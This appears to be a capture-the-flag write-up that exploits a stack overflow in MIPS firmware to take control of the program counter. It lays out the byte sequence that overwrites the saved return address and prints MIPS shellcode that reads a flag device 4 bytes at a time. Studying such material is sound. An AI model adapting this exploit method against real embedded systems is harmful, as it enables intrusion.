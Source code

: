 local_10 is ... 0x10 bytes from the bottom of our stack frame (you can verify this by looking at disassembly or the stack listing at the top of the function in Ghidra).

We can write 8 bytes of controlled data at `(int)&local_10 + (bVar1 & 0xf)`. bVar1's upper four bits have to be 0101 (the message id), but we totally control the lower four bits. This allows us to write 8 bytes at (up to) 0xf bytes past local_10 if we want to. On x86 this would probably give us control of the return address at the bottom of our stack frame, but there's something different going on at the return:

```
LAB_bfc05318
bfc05318 25 e8 c0 03     or         sp,s8,zero
bfc0531c 24 00 bf 8f     lw         ra,local_4(sp)
bfc05320 20 00 be 8f     lw         s8,local_8(sp)
bfc05324 28 00 bd 27     addiu      sp,sp,0x28
bfc05328 08 00 e0 03     jr         ra
```

The return address (in the `ra` register) is being loaded from local_4(sp). Trusting that the labels of the locals by Ghidra are correct (they are), we find that all we have to do to get PC control is make the memcpy do:

```
memcpy((void *)((int)&local_10 + 0xc),param_1 + 2,8);
```

Putting the pieces together, we have to send the following to get PC control:

1. handshake: 0xa5, then 0x5a
2. messsage id and our 0xc offset: 0x5c = (0x5 << 4) | (0xc)
3. pad: 0xff
4. return address (4 bytes)
5. another 0x38 bytes of data to make 0x3e body bytes in total


Because this is MIPS, we can just write our shellcode and jump to it. No ASLR, no NX, so nice.

We know the flag device is at 0xa2008000.

Here's my basic shellcode payload:

```
# v0 = load 0xa2008000
# this gets 4 bytes of flag
lui $v0, 0xa200
lw $v0, 0x8000($v0)

# store the 4 bytes to the output
# buffer at 0xa3000024
lui $v1, 0xa300
sw $v0, 0x0024($v1)

# store zero to 0xa3000020
lui $v0, 0xa300
sb $zero, 0x20($v0)

# load the 'real' return address
# which is 0xbfc04fd4
lui $v0, 0xbfc0
or $v0, $v0, 0x4fd4

# like it never even happened
j $v0
```

This only gets us 4 bytes, but we can just run the thing in a giant loop*

\* The flag changes on every connection, so you have to do it all in one connection.

See [solve.py](solve.py) for implementation.
